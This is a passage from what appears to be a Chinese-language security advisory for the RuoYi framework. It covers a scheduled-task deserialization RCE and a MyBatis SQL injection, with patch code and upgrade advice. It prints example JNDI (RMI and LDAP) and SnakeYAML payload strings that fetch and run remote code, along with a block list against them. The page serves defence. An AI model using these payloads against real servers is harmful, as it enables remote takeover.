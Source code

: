 解决方案：上述漏洞可以升级`RuoYi`版本到`4.7.2`，或按示例进行操作，防止出现系统安全漏洞。

<br>
<br>

* 存在远程执行漏洞 `RuoYi <= v4.6.2`

漏洞详细：

定时任务存在反序列化漏洞利用点，可以通过发送`rmi`、`http`、`ldap`请求，完成命令执行攻击。

如目标字符串具体内容`rmi`：`org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')`

如目标字符串具体内容`ldap(s)`：`javax.naming.InitialContext.lookup('ldap://127.0.0.1:9999/#Exploit')`

如目标字符串具体内容`http(s)`：`org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/poc/yaml-payload.jar"]]]]')`

新增/修改定时任务`SysJobController.java`示例代码（屏蔽`rmi`、`ldap`、`http(s)`目标字符串）
```java
else if (StringUtils.containsIgnoreCase(job.getInvokeTarget(), Constants.LOOKUP_RMI))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串不允许'rmi'调用");
}
else if (StringUtils.containsAnyIgnoreCase(job.getInvokeTarget(), new String[] { Constants.LOOKUP_LDAP, Constants.LOOKUP_LDAPS }))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串不允许'ldap(s)'调用");
}
else if (StringUtils.containsAnyIgnoreCase(job.getInvokeTarget(), new String[] { Constants.HTTP, Constants.HTTPS }))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串不允许'http(s)'调用");
}
else if (StringUtils.containsAnyIgnoreCase(job.getInvokeTarget(), Constants.JOB_ERROR_STR))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串存在违规");
}
else if (!ScheduleUtils.whiteList(job.getInvokeTarget()))
{
	return error("新增任务'" + job.getJobName() + "'失败，目标字符串不在白名单内");
}
```

解决方案：升级`RuoYi`版本到 `> 4.6.2`，或者添加示例代码处理，防止注入漏洞。

<br>
<br>

* 存在SQL注入漏洞 `RuoYi <= v4.6.1`

`Mybatis`配置中使用了`$`所以会存在`sql`注入漏洞。

漏洞详细：

1、`SysDeptMapper.xml`中的`updateParentDeptStatus`节点使用了`${ancestors}`，修改相关逻辑。转成数组方式修改部门状态。
```java
/**
 * 修改该部门的父级部门状态
 * 
 * @param dept 当前部门
 */
private void updateParentDeptStatusNormal(Dept dept)
{
	String ancestors = dept.getAncestors();
	Long[] deptIds = Convert.toLongArray(ancestors);
	deptMapper.updateDeptStatusNormal(deptIds);
}
```
